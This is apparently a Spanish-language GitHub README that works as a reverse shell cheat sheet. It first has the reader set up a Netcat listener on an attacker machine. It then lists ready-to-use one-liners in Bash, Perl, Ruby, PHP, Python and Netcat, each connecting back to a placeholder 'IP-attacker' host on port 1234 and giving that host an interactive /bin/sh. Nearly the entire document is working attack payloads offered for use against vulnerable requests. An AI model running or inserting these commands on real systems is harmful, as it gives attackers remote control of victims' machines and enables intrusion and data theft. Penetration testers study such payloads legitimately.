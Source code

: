 # Reverse Shell

> Trucos para obtener un shell en una peticion vulnerable, se depende del lengueje que acepte las peticiones, requiere configurar previamente un puerto de escucha.

### Configuracion
* **Abre un puerto en tu maquina atacante con Netcat** - es el puerto que con el configuras el shell, estos ejemplos estan configurados con el 1234, puedes modificar el puerto
 
      nc -lvnp 1234
  
* **Modifica la IP en el shell por la de IP-attacker** [Configura el Host](https://github.com/heancako311299/githack)

### Bash

     bash -i >& /dev/tcp/IP-attacker/1234 0>&1
    
### Perl

     perl -e 'use Socket;$i="IP-attacker";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   
### Ruby

     ruby -rsocket -e'f=TCPSocket.open("IP-attacker",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
### Php

     php -r '$sock=fsockopen("IP-attacker",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
### Python 2.7
    
     python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-attacker",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
### Netcat método -e

     nc -e /bin/sh IP-attacker 1234

### Netcat versiones antiguas

     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP-attacker 1234 >/tmp/f

h4Ppy #@cK1n6 :)
> Discord: heanczko#4478
